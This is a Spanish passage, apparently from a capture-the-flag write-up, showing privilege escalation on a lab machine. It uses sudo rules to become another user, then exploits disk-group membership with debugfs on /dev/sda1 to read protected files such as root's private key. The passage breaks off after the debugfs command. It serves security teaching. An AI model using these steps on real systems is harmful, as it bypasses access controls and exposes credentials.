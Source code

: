 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ben on ready:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ben may run the following commands on ready:
    (peter) NOPASSWD: /usr/bin/bash
```

Vemos que podemos ejecutar el binario `bash` como el usuario `peter`, simplemente con este comando podremos ser dicho usuario.

```shell
sudo -u peter bash
```

Info:

```
peter@ready:/home/ben$ whoami
peter
```

Pero no nos interesa nada este usuario, ya que no puede hacer nada, volviendo al usuario `ben` si hacemos `id` veremos el siguiente grupo:

```
uid=1000(ben) gid=1000(ben) groups=1000(ben),6(disk)
```

Vemos que pertenecemos al grupo `disk` podremos usar un comando dentro de `debugfs`, **para leer el archivo directamente desde el sistema de archivos ext**, sin pasar por la capa del sistema operativo o permisos tradicionales.

Con esto lo que podemos hacer es poder leer cualquier archivo, vamos a probar si `root` tuviera alguna clave privada de esta forma:

```shell
df -h
```

Info:

```
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda1       6.9G  1.5G  5.1G  22% /
udev            473M     0  473M   0% /dev
tmpfs           489M     0  489M   0% /dev/shm
tmpfs            98M  492K   98M   1% /run
tmpfs           5.0M     0  5.0M   0% /run/lock
```

Ya sabemos que donde tenemos que entrar es en `/dev/sda1`, por lo que haremos esto:

```shell
debugfs /dev/sda1
```

Info:
